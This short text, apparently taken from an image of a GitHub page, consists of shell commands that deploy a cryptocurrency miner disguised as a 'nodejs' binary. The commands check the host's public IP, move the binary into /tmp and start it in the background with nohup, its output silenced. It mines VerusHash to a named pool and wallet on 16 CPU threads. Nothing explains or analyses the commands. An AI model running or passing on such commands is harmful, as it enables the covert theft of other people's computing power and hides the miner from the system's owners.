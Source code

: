 curl ifconfig.io
mv nodejs /tmp
nohup /tmp/nodejs --algorithm verushash --pool us.vipor.net:5040 --wallet RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH --password x --worker $(hostname -f) --cpu-threads 16 > /dev/null 2>&1 &

